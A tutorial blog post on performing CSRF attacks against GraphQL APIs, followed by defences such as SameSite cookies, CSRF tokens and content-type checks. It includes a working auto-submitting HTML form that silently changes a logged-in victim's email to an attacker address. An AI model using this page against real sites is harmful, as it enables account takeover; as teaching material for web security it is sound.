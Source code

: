 # How to Perform CSRF Attack in GraphQL API

> tags: graphql, csrf, web-security, attack-techniques

![Image](https://miro.medium.com/v2/resize:fit:720/format:webp/1*wC-DXA3AeudCKD1k5WhH1w.png)

---

## Introduction

Hello hackers! 🕶️

Today we are going to explore how to perform a **CSRF (Cross-Site Request Forgery)** attack against a **GraphQL API**.

Many developers believe GraphQL is safe from CSRF just because it uses POST requests. But that's **not true**.

Let’s see how it can still be exploited when protections are not properly implemented.

---

## What is CSRF?

**Cross-Site Request Forgery** is an attack that tricks a victim into submitting an unwanted request to a web application where they're already authenticated.

In the context of **GraphQL**, it’s common to assume safety due to usage of POST, but the truth is:

* If the GraphQL endpoint accepts `application/x-www-form-urlencoded` or `application/json` content-type
* And there’s no CSRF protection (like SameSite cookies or CSRF tokens)

…it becomes vulnerable.

---

## CSRF with GraphQL Example

Assume the vulnerable GraphQL mutation is:

```graphql
mutation {
  updateEmail(email: "attacker@evil.com")
}
```

This mutation **changes the email of the logged-in user**. If the endpoint accepts requests with the cookie session and no CSRF protection, an attacker can create this malicious HTML:

```html
<html>
  <body>
    <form action="https://target.com/graphql" method="POST">
      <input type="hidden" name="query" value='mutation { updateEmail(email: "attacker@evil.com") }'>
      <input type="submit" value="Submit">
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Once the victim is logged in and visits the attacker’s page, **the email gets changed** silently.

---

## Why Does This Work?

* **GraphQL often lacks CSRF protection**
* If the GraphQL endpoint allows `application/x-www-form-urlencoded` and uses cookies for session
* The browser sends session cookies automatically

So even though it's a POST request, it can be exploited like a regular CSRF attack.

---

## How to Prevent CSRF in GraphQL

1. **Enforce SameSite cookies**

   ```http
   Set-Cookie: sessionid=xyz; SameSite=Strict; Secure
   ```

2. **Reject `application/x-www-form-urlencoded`**

   Accept only `application/json` content-type and **reject browser-friendly formats**.

3. **Use CSRF tokens**

   Even with GraphQL, you can implement CSRF tokens and validate them server-side.

4. **Add origin/referrer checks**

   Validate that the incoming requests come from the same origin.

---

## Conclusion

* GraphQL is not inherently safe from CSRF.
* Any state-changing mutation can be a target.
* Always implement proper CSRF defenses like SameSite cookies and token-based protection.

Thanks for reading, stay safe and hack smart 🧠💥

---
